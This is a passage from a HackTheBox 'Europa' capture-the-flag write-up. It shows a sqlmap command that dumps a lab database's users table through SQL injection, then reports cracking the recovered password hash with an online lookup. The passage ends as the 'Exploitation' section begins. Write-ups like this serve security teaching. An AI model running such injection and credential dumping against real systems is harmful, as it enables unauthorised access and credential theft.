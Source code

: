 Finally, lets dump the users table.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl -D admin -T users --dump
...
Database: admin
Table: users
[2 entries]
+----+----------------------+--------+----------------------------------+---------------+
| id | email                | active | password                         | username      |
+----+----------------------+--------+----------------------------------+---------------+
| 1  | admin@europacorp.htb | 1      | 2b6d315337f18617ba18922c0b9597ff | administrator |
| 2  | john@europacorp.htb  | 1      | 2b6d315337f18617ba18922c0b9597ff | john          |
+----+----------------------+--------+----------------------------------+---------------+
...
```

Using Hashes.com, we find out that the password is `SuperSecretPassword!`.

```
2b6d315337f18617ba18922c0b9597ff:SuperSecretPassword!
```

# Exploitation

After logging in, the dashboard looks like this.
